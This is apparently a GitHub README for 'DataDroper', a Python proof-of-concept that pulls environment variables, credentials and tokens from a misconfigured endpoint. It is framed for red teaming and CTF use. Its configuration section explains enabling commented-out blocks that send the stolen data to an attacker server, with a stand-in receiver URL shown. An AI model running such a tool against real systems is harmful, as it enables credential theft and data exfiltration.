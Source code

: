 DataDroper

DataDroper is a proof-of-concept (PoC) Python script that exploits a known, unsecured endpoint to extract sensitive data. It is designed to demonstrate the real-world impact of endpoint misconfigurations during security assessments, red teaming exercises, or CTF challenges.

⚠️ Warning: Use this tool only on systems you own or have explicit permission to test. Misuse is illegal and unethical.

🚀 Features

Targets a specific vulnerable endpoint (URL must be provided by the user)

Extracts and dumps exposed sensitive information (environment variables, credentials, tokens, etc.)

Simple and fast: minimal dependencies and easy to customize

🛠️ Prerequisites

Python 3.6+

requests library

pip install requests

📥 Installation

Clone the repository

git clone https://github.com/p3nut-ai/DataDroper.git
cd DataDroper



⚙️ Configuration

Uncomment data-dropping sections

In datadroper.py, there are commented blocks responsible for dropping all extracted data to the attacker’s endpoint. To enable full data exfiltration, locate:

# target_link = "http://your-server.com/receive"


Provide the vulnerable endpoint URL

This PoC does not include a target URL. You must supply the exact vulnerable endpoint via the command line when running the script.

▶️ Usage

Run the script with the target endpoint URL as an argument:

python data_droper.py 



📝 POC

![alt text](https://cdn.discordapp.com/attachments/1332707393498255440/1362514265851826428/image.png?ex=6802abcb&is=68015a4b&hm=273b11f597d3946bb358b28c0fabd8b3d586755b91adf5911a3ae2955c72e58c&)
